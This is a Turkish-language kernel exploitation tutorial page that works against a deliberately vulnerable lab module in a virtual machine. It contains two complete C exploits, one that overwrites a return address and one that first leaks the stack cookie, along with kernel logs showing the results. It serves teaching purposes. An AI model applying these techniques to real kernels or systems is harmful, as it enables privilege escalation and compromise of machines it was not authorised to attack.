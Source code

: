 # Exploit zamanı
Modülümüzü yüklediğimize göre exploit etmeye geçebiliriz.

İlk exploitimizde amacımız `cant_get_here` fonksiyonunu çağırmak olacak.

Bunun için buffer overflow zafiyetini kullanarak stack üzerinde kaydedilmiş 
olan dönüş adresinin (return adresi) yerine `cant_get_here`ın adresini yazacağız.

### Stack cookiesi neden önemli?
Ancak stack cookielerini dikkate almak zorundayız, buffer overflow'u exploit ederken 
stack şu şekilde görünecektir:
```
local buffer  
---------------
stack cookie  
---------------
return address
```
Burda eğer doğrudan lokal buffer'ı taşırıp, stack cookie'ye rastgele birşeyler yazıp return 
adrese yazmaya geçersek stack cookiesi bozulacağından kernel panikliyecektir.

Bunu deneyip de görebiliriz, fakat önce `cant_get_here` fonksiyonun adresine ihtiyacımız var,
bunun için `/proc/kallsyms`'i kullanabiliriz. `kallsyms` tüm kernel sembollerinin adreslerini 
içeriyor. Bunların arasından `cant_get_here`ın adresini almak adına: `cat /proc/kallsyms | grep cant_get_here`

Bu örnekte `cant_get_here` `ffffffff81094a50` adresinde.

Hadi bu adresi kullanarak basit bir exploit yazalım:
```c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>

#define DEVICE      "/proc/vuln"

int main(){
    // proc dosyasını okuma ve yazma izinleri ile açıyoruz
    // dosyanın handle'ını fd değişkenine kaydediyoruz
    int fd = open(DEVICE, O_RDWR);

    // yazıcağımız veriyi tutacağımız buffer,
    // long kullanmamızın temel sebebi cookie'nin 8 byte olması 
    // bu sonrasında işimizi kolaylaştıracak
    unsigned long w[3];
    w[0] = 0; // local buffer 
    w[1] = 0; // stack cookie 
    w[2] = (unsigned long)0xffffffff81094a50; // return address 

    puts("Writing payload to "DEVICE);
    // buffer'ı proc dosyasına yazıyoruz 
    write(fd, w, sizeof(w));

    // son olarak dosyayı kapatıyoruz
    close(fd);
}
```
Bu exploiti `gcc -o exploit -static [dosya]` komutu ile derleyip çalıştırırsak beklediğimiz 
kernel paniğe sebep olacaktır:
```
[root@k101 first]# ./exploit
[   85.312183] [vuln] Copied to buffer:
[   85.312213] Kernel panic - not syncing: stack-protector: Kernel stack is corrupted in: procfile_write+0x78/0x80 [vuln]
[   85.317712] CPU: 0 PID: 255 Comm: exploit Tainted: G           O      5.15.135 #1
[   85.318350] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS Arch Linux 1.16.2-2-2 04/01/2014
[   85.319143] Call Trace:
[   85.319395]  <TASK>
[   85.319615]  dump_stack_lvl+0x33/0x46
[   85.320003]  panic+0x107/0x2bc
[   85.320304]  ? _printk+0x63/0x7e
[   85.320610]  ? procfile_write+0x78/0x80 [vuln]
[   85.321107]  __stack_chk_fail+0x10/0x10
[   85.321492]  procfile_write+0x78/0x80 [vuln]
[   85.321910]  init_module.cold+0x1a/0x1a [vuln]
[   85.322291]  __cond_resched+0x11/0x40
[   85.322596]  vfs_write+0xb7/0x260
[   85.322872]  ksys_write+0x66/0xe0
[   85.323148]  do_syscall_64+0x3b/0x90
[   85.323455]  entry_SYSCALL_64_after_hwframe+0x62/0xcc
[   85.323869] RIP: 0033:0x410b84
[   85.324125] Code: 89 02 b8 ff ff ff ff eb b5 67 e8 d7 10 00 00 0f 1f 80 00 00 00 00 f3 0f 1e fa 80 3d dd 1e 09 00 00 74 13 b8 01 00 00 00 08
[   85.325677] RSP: 002b:00007fff3a694958 EFLAGS: 00000202 ORIG_RAX: 0000000000000001
[   85.326295] RAX: ffffffffffffffda RBX: 00007fff3a694ab8 RCX: 0000000000410b84
[   85.326887] RDX: 0000000000000018 RSI: 00007fff3a694970 RDI: 0000000000000003
[   85.327468] RBP: 00007fff3a694990 R08: 00000000004a21c0 R09: 0000000000000004
[   85.328059] R10: 0000000000000000 R11: 0000000000000202 R12: 00007fff3a694aa8
[   85.328653] R13: 0000000000000001 R14: 000000000049e2e8 R15: 0000000000000001
[   85.329265]  </TASK>
[   85.329579] Kernel Offset: disabled
[   85.329893] ---[ end Kernel panic - not syncing: stack-protector: Kernel stack is corrupted in: procfile_write+0x78/0x80 [vuln] ]---
```

### Stack cookiesini leaklemek
O halde stack cookie'yi korumamız lazım. Ancak stack cookiesini bilmeden bu mümkün değil - 
stack cookiesini leaklememiz lazım. Bunu yapmak için ikinci zafiyet olan arbitary memory read'i 
kullanacağız. 

Daha iyi açıklamak gerekirse önce arbitary read kullanarak stack'den cookie'yi leakleyeceğiz,
ardından leaklediğimiz cookie ile buffer overflowu gerçekleştireceğiz.

Fakat burda dikkat etmemiz gereken bir nokta lokal buffer'ın arbitary read'i exploit ederken 
32 byte olduğu. Stack cookie'si de 8 byte olduğundan toplam 40 byte okuyacağız. Son 8 byte'daki 
cookie'yi daha sonra yazma bufferına geçebiliriz:
```c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>

#define DEVICE      "/proc/vuln"

int main(){
    // proc dosyasını okuma ve yazma izinleri ile açıyoruz
    // dosyanın handle'ını fd değişkenine kaydediyoruz
    int fd = open(DEVICE, O_RDWR);

    // yazıcağımız veriyi tutacağımız buffer
    unsigned long w[3];
    // okuyacağımız veriyi tutacağımız buffer 
    // totalde 40 byte okuyacağız
    unsigned long r[5];
    
    read(fd, r, sizeof(r));
    // hex formatında okuduğumuz veriyi ekrana basıyoruz
    for(int i = 0; i < sizeof(r)/8; i++){
        printf("Reading (%d): %lx\n", i, r[i]);
    }
    printf("Cookie leaked! %lx\n", r[4]);

    w[0] = 0; // local buffer 
    // stack cookie okuduğumuz verinin en sonunda yer alacak
    w[1] = r[4]; // stack cookie
    w[2] = (unsigned long)0xffffffff81094a50; // return address 

    puts("Writing payload to "DEVICE);
    // buffer'ı proc dosyasına yazıyoruz 
    write(fd, w, sizeof(w));

    // son olarak dosyayı kapatıyoruz
    close(fd);
}
```
Bu exploit başarı ile cookie'i koruyarak return adresimizin üzerine yazacaktır:
```
[root@k101 first]# ./exploit
Reading (0): 4141414141414141
Reading (1): 4141414141414141
Reading (2): 4141414141414141
Reading (3): 4141414141414141
Reading (4): 17fffed8fde5f100
Cookie leaked! 17fffed8fde5f100 
Writing payload to /proc/vuln
```
Burda ilk 32 byte `A` harfi ile dolu olan lokal bufferımız, ardından gelen `17fffed8fde5f100`
bizim stack cookiemiz, exploit çalıştıktan sonra dmesg çıktısına bakarsak:
```
[  158.068013] [vuln] /proc/vuln created
[  164.520880] [vuln] Reading 40 bytes
[  164.524063] [vuln] Copied to buffer:
[  164.524066] [vuln] How did we get here?
```
`cant_get_here` fonksiyonu çalıştırmayı başardığımızı görebiliriz.

Exploitimiz çalıştı ancak bize herhangi birşey kazandırmadı. Sadece modülümüzdeki erişilemez olan 
bir fonksiyonu çağırdık. Bu şekilde temel fikri aldığımıza göre artık bir root exploiti yazabiliriz.

---
[Önceki](deeper.md) | [Sonraki](ret2root.md)
